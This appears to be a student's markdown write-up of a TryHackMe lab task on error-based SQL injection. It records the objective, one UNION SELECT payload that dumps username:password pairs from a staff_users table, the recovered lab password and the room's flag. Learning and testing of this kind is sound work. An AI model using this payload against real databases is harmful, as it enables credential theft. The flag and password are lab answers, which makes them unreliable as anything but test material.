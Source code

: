 # Level One – Error-Based SQLi (Task 5)

**Date recorded:** 
- 2025-09-23 

**Lab Objective:** 
- Enumerate usernames and passwords from the `staff_users` table using error-based SQLi.

**Payload used:**
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


markdown
Copy code

**Result:** Retrieved concatenated username:password values from staff_users. 


**Password recovered:** pa$$word  

**Flag Obtained:** THM{SQL_INJECTION_3840}

Notes: Performed in a safe TryHackMe environment. Error-based SQLi allowed enumeration of the table.

**Screenshots:**
![Level 1 Error-Based SQLi](./screenshot/level1/2025-09-23-Error-Based-SQLi.png)



